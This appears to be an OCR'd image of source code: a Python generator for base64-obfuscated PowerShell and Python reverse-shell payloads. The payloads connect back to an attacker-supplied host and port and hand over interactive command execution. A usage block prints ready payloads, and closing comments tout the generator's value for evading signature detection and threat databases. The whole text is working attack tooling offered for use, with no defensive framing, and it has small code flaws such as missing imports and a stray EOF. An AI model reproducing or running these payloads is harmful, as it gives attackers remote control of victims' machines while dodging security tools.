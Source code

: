 ```bash
import string

def generate_powershell_payload(lhost, lport):
    """Generate obfuscated PowerShell reverse shell"""
    ps_template = f'''
    $s = New-Object System.Net.Sockets.TCPClient('{lhost}',{lport});
    $st = $s.GetStream();
    [byte[]]$b = 0..65535|%{{0}};
    while(($i = $st.Read($b, 0, $b.Length)) -ne 0){{
        $d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);
        $sb = (iex $d 2>&1 | Out-String );
        $sb2 = $sb + 'PS ' + (pwd).Path + '> ';
        $sbt = ([text.encoding]::ASCII).GetBytes($sb2);
        $st.Write($sbt,0,$sbt.Length);
        $st.Flush()
    }};
    $s.Close()
    '''
    
    # Variable name obfuscation
    var_names = [''.join(random.choices(string.ascii_letters, k=random.randint(3,8))) for _ in range(10)]
    
    # Base64 encoding
    ps_bytes = ps_template.encode('utf-16le')
    ps_encoded = base64.b64encode(ps_bytes).decode()
    
    return f"powershell -EncodedCommand {ps_encoded}"

def generate_python_payload(lhost, lport):
    """Generate obfuscated Python reverse shell"""
    py_template = f'''
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('{lhost}',{lport}))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(['/bin/sh','-i'])
    '''
    
    # Base64 encoding for obfuscation
    py_encoded = base64.b64encode(py_template.encode()).decode()
    return f"python3 -c 'import base64;exec(base64.b64decode(\"{py_encoded}\").decode())'"

# Usage
print("PowerShell payload:")
print(generate_powershell_payload("192.168.1.5", 4444))
print("\nPython payload:")
print(generate_python_payload("192.168.1.5", 4444))
EOF

# Why custom payload development is valuable:
# - Bypasses signature detection for known payloads
# - Provides specific functionality for unique scenarios
# - Enables advanced obfuscation techniques
# - Allows platform-specific optimizations
# - Creates unique IoCs that aren't in threat databases
```
